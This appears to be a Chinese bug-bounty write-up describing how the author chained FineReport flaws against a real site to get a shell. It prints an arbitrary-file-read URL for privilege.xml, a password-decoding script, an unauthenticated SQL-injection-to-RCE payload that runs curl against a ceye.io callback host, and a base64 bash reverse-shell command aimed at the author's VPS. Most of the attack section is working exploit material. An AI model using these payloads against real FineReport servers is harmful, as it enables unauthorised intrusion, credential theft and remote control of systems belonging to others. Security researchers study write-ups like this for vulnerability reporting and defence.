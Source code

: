 ```yaml
---
description: 首发于先知社区：
---
```


# 记一次帆软组合拳getshell

## 前言

看到某区发现帆软的组合漏洞文章，突然想起自己最近也挖到类似的，拿出来分享一下。

## 资产发现

首先是信息收集子域名，谷歌语句直接`site:xxx.com -www`,一个登录口网站吸引了我的注意力。

![image](img/1.png)

我点击电信、网通、自动的时候，发现域名跳转到了真实IP

![image](img/2.png)

这样，就可以对真实IP进行端口扫描->目录扫描一把梭了，发现在8080端口发现ReportServe部署页面。

http://xxx.xxx.xxx.xxxx:8080/ReportServer

![image](img/3.png)

接着就对帆软的历史漏洞进行测试了。

## 任意文件读取获取密码解密登录后台

`view-source:http://xxx.xxx.xxx.xxx:8080/ReportServer?op=chart&cmd=get_geo_json&resourcepath=privilege.xml`

刚开始的时候是空白页，查看源代码才发现信息

![image](img/4.png)

可以看到用户为posun,密码需要解密一下

解密脚本：

```py
cipher = '___0022007c0039003b005100e3' #密文
PASSWORD_MASK_ARRAY = [19, 78, 10, 15, 100, 213, 43, 23] #掩码
Password = ""
cipher = cipher[3:] #截断三位后
for i in range(int(len(cipher) / 4)):
    c1 = int("0x" + cipher[i * 4:(i + 1) * 4], 16)
    c2 = c1 ^ PASSWORD_MASK_ARRAY[i % 8]
    Password = Password + chr(c2)
print (Password)
```

解密得到123456，问题是拿到哪里登录呢，突然想到刚才有个数据决策系统，拿去登录刚才的数据决策系统.

![image](img/5.png)

成功进入后台，然而高兴的太早了,因为该站长注册码到期了，且没有什么敏感信息。SRC也是反馈危害性不大，不能收，没办法，只能另寻途径了。

## 帆软报表FineRePort未授权远程命令执行漏洞

看到去年的帆软还存在个未授权命令执行漏洞，搜了一下poc,发现在github有,

* https://github.com/ffffffff0x/1earn/blob/0583f77f62d63f93b1c519efc57327003feec4ed/1earn/Security/RedTeam/Web%E5%AE%89%E5%85%A8/BS-Exploits.md#%E5%B8%86%E8%BD%AF
* 影响版本:
  * 帆软报表 FineRePortv8.0
  * 帆软报表 FineRePortv9.0

```
xxx.com/WebReport/ReportServer?op=fr_log&cmd=fg_errinfo&fr_username=admin

这个接口 打开 点查询 burp拦截数据包 替换post的内容

__parameters__={"LABEL1":"TYPE:","TYPE":"6;CREATE ALIAS RUMCMD FOR \"com.fr.chart.phantom.system.SystemServiceUtils.exeCmd\";CALL RUMCMD('curl http://uki7s7.ceye.io');select msg, trace, sinfo, logtime from fr_errrecord where 1=1","LABEL3":"START_TIME:","START_TIME":"2020-08-11 00:00","LABEL5":"END_TIME:","END_TIME":"2020-08-11 16:41","LABEL7":"LIMIT:","LIMIT":2}
```

便操作了一下,前提是需要得知用户名

漏洞地址：`http://xxx.xxx.xxx.xxx:8080/ReportServer?op=fr_log&cmd=fg_errinfo&fr_username=posun`,这里需要把username改为刚刚的用户名。

![image](img/6.png)

点击查询抓包改包，这里先是简单的ceye回显，改包后一直forward

![image](img/7.png)

![image](img/8.png)

可以看到，我的ceye收到回显，说明该漏洞是存在的，为了证明危害性，我后面继续了反弹shell操作

```
bash -c {echo,base64编码}|{base64,-d}|{bash,-i}
```

VPS监听7777端口，如图下 反弹shell成功

![image](img/9.png)

备注:刚开始对面审核SRC愣是死活复现不出来,手把手教学了,这里有几个问题注意下,查询不能太频繁 容易并发数满,需要等一段时间,我后面第二天并发数才清空.

## 总结

* 多观察细节,比如刚刚的真实IP就冒出来了
* 遇到危害性不大漏洞不要慌,留着还能组合其它的漏洞.
